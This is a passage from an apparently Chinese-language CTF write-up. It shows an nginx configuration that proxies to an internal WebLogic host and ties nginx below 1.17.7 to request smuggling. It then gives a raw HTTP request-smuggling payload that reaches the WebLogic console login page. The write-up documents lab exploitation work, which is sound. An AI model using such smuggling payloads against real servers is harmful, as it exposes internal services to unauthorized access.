 ```nginx

    #keepalive_timeout  0;
    keepalive_timeout  65;

    server {
        listen       80;
        error_page 404 404.php;
        root /usr/local/nginx/html;
        index index.htm index.html index.php;
        location ~ \.php$ {
           root           /usr/local/nginx/html;
           fastcgi_pass   127.0.0.1:9000;
           fastcgi_index  index.php;
           fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
           include        fastcgi_params;
        }

    }

resolver 127.0.0.11 valid=0s ipv6=off;
resolver_timeout 10s;


    # weblogic
    server {
		listen       80;
		server_name  weblogic;
		location / {
			proxy_set_header Host $host;
			set $backend weblogic;
			proxy_pass http://$backend:7001;
		}
	}
}
```

可以发现确实在内网有 host 为 weblogic 的服务，但是没有提供可 SSRF 的位置。可以发现服务端使用的 Nginx 版本为 1.17.6，而 Ngnix < 1.17.7 存在请求走私的漏洞，因此进行尝试。

#### 请求走私

使用如下载荷走私到 WebLogic Console 的登录页面。

```http
GET /undefined HTTP/1.1
Host: node4.buuoj.cn:28946
Content-Length: 0
Transfer-Encoding: chunked

GET /console/login/LoginForm.jsp HTTP/1.1
Host: weblogic


```
